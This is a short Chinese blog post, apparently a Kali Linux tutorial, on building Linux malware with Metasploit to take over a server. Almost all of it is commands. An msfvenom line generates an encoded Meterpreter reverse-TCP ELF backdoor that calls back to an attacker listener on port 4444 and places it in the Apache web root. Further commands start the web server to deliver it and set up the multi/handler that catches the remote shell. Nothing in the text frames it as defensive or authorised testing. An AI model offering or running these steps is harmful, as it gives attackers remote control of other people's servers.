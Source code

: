 ```yaml
---
title: "制作Linux恶意软件获取服务器权限"
date: 2020-02-22T19:37:26+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```




Metasploit木马命令制作Linux恶意软件获取服务器权限



<!--more-->



## 实现步骤

* 生成Linux恶意软件

~~~
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -f elf -i 20 -o /var/www/html/xuegod
~~~

* 开启WEB服务

~~~
systemctl start apache2
systemctl enable apache2
systemctl status apache2
~~~

* 在MSF上启动handler开始监听后门程序

~~~
msfdb run
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
run
help
background
sessions
~~~

